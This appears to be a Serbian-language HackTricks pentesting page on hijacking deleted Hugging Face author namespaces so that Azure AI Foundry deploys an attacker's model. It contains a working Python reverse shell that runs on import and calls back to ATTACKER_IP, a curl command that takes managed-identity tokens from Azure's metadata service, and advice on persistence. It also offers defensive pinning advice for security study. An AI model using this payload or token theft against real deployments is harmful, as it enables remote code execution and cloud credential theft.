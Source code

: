 # Azure - AI Foundry Post-Exploitation kroz Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenarij

- Katalog modela Azure AI Foundry uključuje mnoge Hugging Face (HF) modele za postavljanje jednim klikom.
- HF identifikatori modela su Author/ModelName. Ako je HF author/org obrisan, bilo ko može ponovo registrovati tog autora i objaviti model sa istim ModelName na legacy putanji.
- Pipelines i katalogi koji povlače po imenu (bez commit pinovanja/integriteta) će rešiti na repozitorijume pod kontrolom napadača. Kada Azure postavi model, loader code se može izvršiti u okruženju endpointa i dodeliti RCE sa dozvolama tog endpointa.

Uobičajeni slučajevi preuzimanja HF:
- Brisanje vlasništva: Stara putanja vraća 404 dok ne dođe do takeover-a.
- Prelazak vlasništva: Stara putanja vraća 307 ka novom authoru dok stari author postoji. Ako je stari author kasnije obrisan i ponovo registrovan, redirect prestaje da radi i repo napadača se servira na legacy putanji.

## Identifikovanje ponovo upotrebljivih namespace-a (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## End-to-end tok napada protiv Azure AI Foundry

1) U Model Catalog pronađite HF models čiji su originalni autori obrisani ili prebačeni (stari author uklonjen) na HF.  
2) Ponovo registrujte napuštenog autora na HF i ponovo kreirajte ModelName.  
3) Objavite maliciozni repo sa loader kodom koji se izvršava pri import ili zahteva trust_remote_code=True.  
4) Deploy-ujte legacy Author/ModelName iz Azure AI Foundry. Platforma povuče attacker repo; loader se izvršava unutar Azure endpoint container/VM, što rezultira RCE sa permisijama endpoint-a.

Example payload fragment executed on import (for demonstration only):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Napomene
- AI Foundry deployments koji integrišu HF tipično kloniraju i importuju repo module koje referencira model’s config (npr. auto_map), što može dovesti do izvršavanja koda. Za neke putanje je potrebno trust_remote_code=True.
- Pristup obično odgovara dozvolama managed identity/service principal endpointa. Smatrajte ga početnim foothold-om za pristup podacima i lateral movement unutar Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Istražite environment variables i MSI endpoints da biste pronašli tokene:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Proverite montirane skladišne lokacije, artefakte modela i dostupne Azure servise koristeći pribavljeni token.
- Razmotrite postojanost ostavljanjem poisoned model artifacts ako platforma ponovo preuzima iz HF.

## Smernice za odbranu za korisnike Azure AI Foundry

- Zaključajte modele po commit-u pri učitavanju iz HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Preslikajte proverenih HF modela u pouzdan interni registry i deploy-ujte ih odatle.
- Kontinuirano skenirajte codebase-ove i defaults/docstrings/notebooks u potrazi za hard-coded Author/ModelName koji su obrisani/prebačeni; ažurirajte ili pin-ujte.
- Proverite postojanje autora i poreklo modela pre deploymenta.

## Heuristike prepoznavanja (HTTP)

- Obrisani autor: author stranica 404; legacy model path 404 dok ne dođe do takeover-a.
- Prebačeni model: legacy path 307 na novog autora dok stari autor postoji; ako stari autor kasnije bude obrisan i ponovo registrovan, legacy path može služiti sadržaj napadača.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Međureferencije

- Pogledajte širu metodologiju i napomene o lancu snabdevanja:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Reference

- [Ponovna upotreba imenskog prostora modela: AI napad na lanac snabdevanja koji iskorišćava poverenje u ime modela (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Preimenovanje ili prenos repo-a](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
